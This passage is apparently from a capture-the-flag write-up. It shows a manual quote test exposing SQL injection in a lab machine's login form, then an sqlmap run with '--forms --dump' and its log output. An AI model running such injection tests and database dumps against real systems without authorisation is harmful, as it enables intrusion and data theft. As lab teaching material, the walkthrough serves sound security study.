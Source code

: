 Entering a simple quote in the `username` field and clicking on the `Login` button will return an error:
~~~
Try Again
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''''' at line 1 
~~~

This simple test confirms that the `username` field is vulnerable to an SQL injection. Let's use `sqlmap`:

~~~
 ./sqlmap.py -u http://10.10.166.91/administrator.php --forms --dump
        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.4.5.19#dev}
|_ -| . [.]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 15:30:50 /2020-05-13/

[15:30:50] [INFO] testing connection to the target URL
[15:30:50] [INFO] searching for forms
[#1] form:
POST http://10.10.166.91/administrator.php
POST data: username=&password=
do you want to test this form? [Y/n/q] 
> Y
Edit POST data [default: username=&password=] (Warning: blank fields detected): 
do you want to fill blank fields with random values? [Y/n] 
[15:31:17] [INFO] using '/home/unknown/.local/share/sqlmap/output/results-05132020_0331pm.csv' as the CSV results file in multiple targets mode
[15:31:17] [INFO] checking if the target is protected by some kind of WAF/IPS
[15:31:17] [INFO] testing if the target URL content is stable
[15:31:18] [INFO] target URL content is stable
[15:31:18] [INFO] testing if POST parameter 'username' is dynamic
[15:31:18] [WARNING] POST parameter 'username' does not appear to be dynamic
[15:31:18] [INFO] heuristic (basic) test shows that POST parameter 'username' might be injectable (possible DBMS: 'MySQL')
[15:31:18] [INFO] heuristic (XSS) test shows that POST parameter 'username' might be vulnerable to cross-site scripting (XSS) attacks
[15:31:18] [INFO] testing for SQL injection on POST parameter 'username'
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] 
[15:31:36] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[15:31:36] [WARNING] reflective value(s) found and filtering out
[15:31:37] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[15:31:37] [INFO] testing 'Generic inline queries'
[15:31:37] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[15:31:39] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (MySQL comment)'
[15:31:42] [INFO] testing 'OR boolean-based blind - WHERE or HAVING clause (NOT - MySQL comment)'
[15:31:44] [INFO] testing 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause'
[15:31:45] [INFO] POST parameter 'username' appears to be 'MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause' injectable (with --not-string="Got")
[15:31:45] [INFO] testing 'MySQL >= 5.5 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (BIGINT UNSIGNED)'
[15:31:45] [INFO] testing 'MySQL >= 5.5 OR error-based - WHERE or HAVING clause (BIGINT UNSIGNED)'
~~~